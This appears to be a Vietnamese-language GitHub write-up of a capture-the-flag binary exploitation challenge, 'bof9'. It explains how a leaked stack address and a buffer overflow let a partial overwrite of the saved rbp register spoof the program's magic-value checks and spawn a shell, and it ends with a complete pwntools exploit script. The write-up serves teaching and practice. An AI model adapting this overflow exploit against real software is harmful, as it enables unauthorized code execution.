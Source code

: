 # bof9
## Tự hành:
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/0c59e8b4-fc6d-4939-80e5-a2ff9389d0d8)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/e6ad1d7c-3e59-47f8-8359-e08e8014f2ef)
- Với mỗi biến `v1` và `buf` thì mỗi biến có kiểu `int64` = 8byte và có 4 phần tử cho nên cũng có thể hiểu như là 1 biến char với 32 ký tự vậy(như ảnh ở dưới).
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/25005cbe-7104-4106-8180-86ecbf9a7664)
- Khi chạy thử file thì ta nhận đc địa chỉ stack của biến `v4` và chúng ta cùng tiến hành lấy cái địa chỉ stack này thôi , và trong hàm `get_credential` bạn có thể thấy lỗi bof ở ngày biến `buf` vì vậy ta cũng sẽ vào terminal để cùng xem cách mà lỗi này hoạt động.
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/3a7c3632-3781-46b0-a478-7407a5560bd4)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/8e457413-2506-4fcf-b1d8-bd0a40dc4766)
- Với mod DEBUG thì ta đã kiểm tra đc dữ liệu stack lấy đã đúng ta cần phải kiểm tra cách mà lỗi bof hoạt động nữa là xong , từ đó ta sẽ có hướng giải như sau.
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/33d74aba-3a69-4fbc-a38d-fbee173a4899)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/2f00dba1-05f1-4231-b1a8-0bd5cc4069fb)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/883a89b4-532c-42a8-a9be-41ff5dd82051)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/f42702b7-260a-4087-8a71-220dfec04e29)
- Từ những thông tin trên những tấm ảnh thì ta có thể hiểu như sau: ở ảnh thứ 4 khi so sánh nó sẽ trỏ đến địa chỉ thanh ghi `rbp` trừ đi 1 khoản = `0x20`. Để giải bài này thì chúng ta có thể `overwrite rbp` để nó trỏ đến những giá trị mà điều kiện đề bài yêu cầu thay vì trỏ đến những thứ mà chương trình cho sẵn
- Bước đầu chúng ta sẽ tính chính xác điểm trỏ đến ở nơi chúng ta sẽ nhập vào đk của chương trình (đk của chương trình : `0x13371337` ,`0xCAFEBABE` và `0xDEADBEEF`)
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/2f47029d-39aa-45c7-b6a4-cf8e3cba6c36)
- Khi tính toán thì ở địa chỉ mà stack mà ta leak đc ta sẽ trừ đi 1 khoản = 0x30 để có thể trỏ đến nơi mà ta sẽ nhập và khi vào hàm main nó sẽ trỏ đến 1 địa chỉ rbp-0x20 vì vậy ta cần cộng thêm để giữ nguyên vị trí mà ta sẽ nhập vào đk.
![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/8d6c799e-e31e-4bb1-b905-ba9d55a12ecc)
- tools của chúng ta hoàn thành sẽ đc như sau và giải thích 1 chút ở lệnh `payload += p64(fake_save_rbp)[0:2]` thì hiểu đơn giản ở đây từ 1 địa chỉ 8 byte với câu lệnh này nó sẽ gửi vào chỉ có 2 byte cuối như ta đã tính đc :Đ ( hiểu tới đó thui hehe).
```- 1 lưu ý nho nhỏ là bài này chúng ta vốn dĩ có thể làm bằng cách này là vì khi chương trình thực hiện hàm `get_credential` và trả ra dữ liệu nhập vào , ngay lập tức hàm main so sánh các đk,vì thế mà các giá trị ở stack đc lưu lại. Nếu như mà main thực hiện 1 hàm khác để làm điều đó thì cách địa chỉ stack sẽ bị thay đổi để chừa cho các biến trong hàm :(( ( khổ chưa mà :Đ ). Ae mà siêng thì chạy đến đc hàm system thì các giá trị mà ta nhập vào sẽ overwrite ngay lập tức :)) còn tui lười quá nên hong làm âu :>> ```
- Chạy thử tools thì ta đã thành công nhận đc shell.
- ![image](https://github.com/NTDtrytofullstack/bof9/assets/130078745/85fa0524-9f5f-4cc3-98d5-398b355fc9b7)
## source code: 
```
#!/usr/bin/python3
from pwn import *
exe = ELF('./bof9', checksec=False)

p=process(exe.path)


#gdb.attach(p, gdbscript = '''
#b*get_credential+115
#c
#)
#input()

p.recvuntil(b'user: ')
stack_leak = int(p.recvline(), 16)
log.info("stack leak: " + hex(stack_leak))
user_name = stack_leak - 0x30
fake_save_rbp = user_name + 0x20

payload =p64(0x13371337)
payload +=p64(0xDEADBEEF)
payload +=p64(0xCAFEBABE)
payload +=p64(0)
payload += p64(fake_save_rbp)[0:2]

p.sendafter(b'Username: ', payload)
p.sendafter(b'Password: ', b'a'*8)
p.interactive()
```

